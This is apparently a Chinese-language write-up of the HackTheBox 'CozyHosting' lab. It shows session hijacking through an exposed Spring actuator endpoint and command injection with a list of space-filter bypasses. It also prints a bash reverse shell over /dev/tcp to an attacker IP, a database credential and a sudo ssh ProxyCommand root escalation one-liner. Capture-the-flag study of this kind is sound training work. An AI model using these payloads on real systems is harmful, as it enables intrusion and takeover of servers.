 ```yaml
---
title: HackTheBox-CozyHosting
date: 2025-3-27 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


## nmap

![image-20250327102833282](./CozyHosting/image-20250327102833282.png)

## 80s端口

### dirsearch

```shell
[10:25:17] 200 -  634B  - /actuator
[10:25:18] 200 -   10KB - /actuator/mappings 
[10:25:18] 200 -   15B  - /actuator/health
[10:25:18] 200 -    5KB - /actuator/env
[10:25:18] 200 -   48B  - /actuator/sessions 
[10:25:19] 401 -   97B  - /admin             
[10:25:19] 200 -  124KB - /actuator/beans     
[10:25:48] 500 -   73B  - /error
[10:26:05] 200 -    4KB - /login             
Task Completed  
```

`/actuator/sessions` 下有`kanderson`用户的session，并且每次错误登录都会在该页面下生成一个未认证的session

![image-20250328134909355](./CozyHosting/image-20250328134909355.png)

将cookie替换为kanderson的cookie，即可成功访问kanderson的管理页面

![image-20250328135959933](./CozyHosting/image-20250328135959933.png)

该功能应该是一个ssh连接的功能，输入本机的ip和root用户，提示连接超时，连接靶机本机试试

`hostname:localhost` `username:root`

![image-20250328140205526](./CozyHosting/image-20250328140205526.png)

错误是验证失败，尝试拼接命令执行，以分号分割

在hostname中进行拼接显示无效的hostname，尝试在username中拼接，ping攻击机，攻击机监听icmp包，看是否真的进行命令执行

`hostname:localhost` `username:root;ping 10.10.16.3` 

![image-20250328140542035](./CozyHosting/image-20250328140542035.png)

不能包含空格，尝试对空格进行编码

空格过滤绕过的方式有很多

> %20 %09 %0a %0b %0c %0d %0e %0f %a0 %00 /**/ /\*\!\*/
>
> 大括号绕过，如{ls,-l}
>
>  $IFS、$IFS&2、$IFS9、${IFS}
>
> 重定向字符< , <>

尝试之后只有${IFS}可以绕过

## 得到shell

`hostname`:`localhost` `Username`:`root;ping${IFS}10.10.16.3;`

![image-20250328141836128](./CozyHosting/image-20250328141836128.png)

```shell
bash -c'bash -i &>/dev/tcp/10.10.16.3/443 >&1'

替换后的reverse shell
bash${IFS}-c${IFS}'exec${IFS}bash${IFS}-i${IFS}&>/dev/tcp/10.10.16.3/443${IFS}<&1'
```

查看进程下面有数据库，反编译jar包，在jar包中找到了数据库连接账号密码

![image-20250328161444685](./CozyHosting/image-20250328161444685.png)

![image-20250328153245163](./CozyHosting/image-20250328153245163.png)

```
psql -U postgres -h 127.0.0.1
```

![image-20250328161411095](./CozyHosting/image-20250328161411095.png)

`admin:manchesterunited`

josh用户可以用这个密码登录，josh有ssh的sudo提权

[ssh | GTFOBins](./https://gtfobins.github.io/gtfobins/ssh/#sudo)

```
提权代码

sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```